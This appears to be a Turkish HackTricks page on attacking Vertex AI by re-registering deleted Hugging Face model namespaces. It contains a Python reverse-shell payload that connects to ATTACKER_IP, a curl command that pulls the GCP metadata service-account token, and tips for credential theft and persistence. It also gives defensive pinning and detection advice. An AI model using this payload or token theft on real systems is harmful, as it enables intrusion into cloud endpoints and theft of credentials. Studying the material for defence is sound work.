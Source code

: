 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senaryo

- Vertex AI Model Garden birçok Hugging Face (HF) modelinin doğrudan dağıtımına izin verir.
- HF model tanımlayıcıları Author/ModelName'dir. Eğer HF'de bir author/org silinirse, aynı yazar adı herhangi birisi tarafından yeniden kayıt edilebilir. Saldırganlar daha sonra eski yol üzerinde aynı ModelName ile bir repo oluşturabilir.
- Pipelines, SDKs veya yalnızca ada göre (pinning/integrity yok) çekim yapan cloud katalogları saldırgan kontrollü repoyu çeker. Model dağıtıldığında, o repodaki loader code Vertex AI endpoint container içinde çalıştırılabilir ve endpoint’in izinleriyle RCE sağlar.

HF üzerinde iki yaygın takeover durumu:
- Ownership deletion: Eski yol 404 döner; birisi yazarı yeniden kaydedip aynı ModelName'i yayınlayana kadar.
- Ownership transfer: HF, eski Author/ModelName'den yeni yazara 307 redirect gönderir. Eğer eski yazar daha sonra silinir ve bir saldırgan tarafından yeniden kaydedilirse, redirect zinciri kırılır ve saldırganın reposu legacy path üzerinde hizmet verir.

## Yeniden Kullanılabilir Namespace'leri Belirleme (HF)

- Eski yazar silinmiş: yazar sayfası 404 döner; model yolu takeover olana kadar 404 dönebilir.
- Transfer edilmiş modeller: eski model yolu, eski yazar varken yeni sahibine 307 gönderir. Eğer eski yazar daha sonra silinir ve yeniden kayıt olursa, legacy yol saldırganın reposuna çözümlenir.

Hızlı kontroller curl ile:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI'ye Karşı Uçtan Uca Saldırı Akışı

1) Model Garden'ın deployable olarak listelediği yeniden kullanılabilir model namespace'lerini keşfedin:
- Vertex AI Model Garden'da hala “verified deployable” olarak görünen HF modellerini bulun.
- HF'de orijinal author'ın silinip silinmediğini veya modelin transfer edilip eski author'ın daha sonra kaldırılıp kaldırılmadığını doğrulayın.

2) Silinmiş author'ı HF'de yeniden kaydedin ve aynı ModelName'i yeniden oluşturun.

3) Kötü amaçlı bir repo yayınlayın. Model load sırasında çalışan kodu ekleyin. HF model load sırasında yaygın olarak çalışan örnekler:
- Repodaki __init__.py içindeki yan etkiler
- config/auto_map tarafından referans verilen özel modeling_*.py veya processing code
- Transformers pipelines içinde trust_remote_code=True gerektiren kod yolları

4) Eski Author/ModelName'e ait bir Vertex AI deployment'ı artık saldırganın reposunu çeker. Yükleyici Vertex AI endpoint konteyneri içinde çalıştırılır.

5) Payload, endpoint ortamından (RCE) endpoint'in izinleriyle erişim sağlar.

import sırasında çalıştırılan örnek payload parçası (sadece gösterim amaçlı):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notlar
- Gerçek dünyadaki loader'lar farklılık gösterir. Birçok Vertex AI HF entegrasyonu, modelin config'inde referans verilen repo modüllerini (ör. auto_map) clone edip import eder; bu kod çalıştırmayı tetikleyebilir. Bazı durumlar trust_remote_code=True gerektirir.
- Endpoint tipik olarak sınırlı kapsamlı özel bir container içinde çalışır, ancak veri erişimi ve GCP'de lateral movement için geçerli bir ilk üs olabilir.

## Post-Exploitation İpuçları (Vertex AI Endpoint)

Kod endpoint container içinde çalışmaya başladıktan sonra şunları göz önünde bulundurun:
- Kimlik bilgileri/tokenlar için environment variables ve metadata'yı listeleme
- Bağlı storage veya mount edilmiş model artifact'larına erişim
- service account identity aracılığıyla Google API'leri ile etkileşim (Document AI, Storage, Pub/Sub, vb.)
- Platform repo'yu yeniden pull'larsa model artifact içinde persistence

Erişilebilirse instance metadata'yı enumerate edin (container'a bağlı):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI Kullanıcıları için Savunma Rehberi

- Sessiz değiştirmeyi önlemek için HF loaders içinde modelleri commit'e göre sabitleyin:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Onaylanmış HF modellerini güvenilir bir iç artifact store/registry'ye aynalayın ve oradan dağıtın.
- Kod tabanlarını ve konfigürasyonları, silinmiş/transfer edilmiş hard-coded Author/ModelName için sürekli tarayın; yeni namespace'lere güncelleyin veya commit ile sabitleyin.
- Model Garden'da, dağıtımdan önce modelin kökenini (provenance) ve author varlığını doğrulayın.

## Tanıma Heuristikleri (HTTP)

- Deleted author: author sayfası 404; legacy model path 404 takeover gerçekleşene kadar.
- Transferred model: legacy path, eski author varken yeni author'a 307 döner; eğer eski author daha sonra silinir ve yeniden kaydolursa, legacy path attacker içeriği servis eder.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Çapraz Referanslar

- Daha geniş metodoloji ve tedarik zinciri notlarına bakın:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Kaynaklar

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
